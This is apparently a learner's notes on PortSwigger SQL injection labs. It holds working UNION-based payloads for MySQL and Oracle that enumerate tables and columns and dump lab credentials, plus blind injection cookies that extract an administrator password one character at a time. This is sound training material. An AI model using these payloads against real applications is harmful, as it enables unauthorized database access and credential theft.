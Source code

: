 # UNION attacks

MySQL end of query = `--` and `#`, **try both**.

**PS Lab:** `SQL injection attack, querying the database type and version on MySQL and Microsoft` rejected my accurate queries because I ended my query with `--` instead of `#`. Is this accurate of a real-world setup? I'm not sure.


### Lab: SQL injection attack, listing the database contents on non-Oracle databases
This is a non-Oracle database, so we need to make user of information_schema.tables
>Pets' union select table_name,NULL from information_schema.tables--

This returns all of the tables in the database.

Look for a non-standard table `users_xgouhg`

>Pets' union select * from users_xgouhg--

```
administrator
8bd235i2g39fg3h6865g
```

Chaching 💸

### SQL injection attack, listing the database contents on Oracle
Same thing, just with Oracle. Ezpz.

>Pets' union select table_name, null from all_tables--

Table name `USERS_YXUZFJ`

`Pets' union select COLUMN_NAME,null from all_tab_columns where table_name='USERS_YXUZFJ'--`
Columns:

```
PASSWORD_ODOKFU  
USERNAME_DZRUHS
```

```
administrator
b33a0q24met5szk298fj

carlos
yutk3v2n7a8tt6wco6n2

wiener
95ca28n08tuaahvqbeef
```

## Blind SQL injection with conditional responses

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),1,1) > 'm'--;

Welcome back!

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),1,1) = 'y'--;

First letter is `y`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),2,1) = '5'--;

Second character is `5`. Numbers come before letters in SUBSTRING() !

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),3,1) = 'l'--;

3rd character is `l`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),4,1) = '1'--;

4th characters is `1`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),5,1) = '0'--;

5th character is `0`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),6,1) = 'g'--;

6th character is `g`
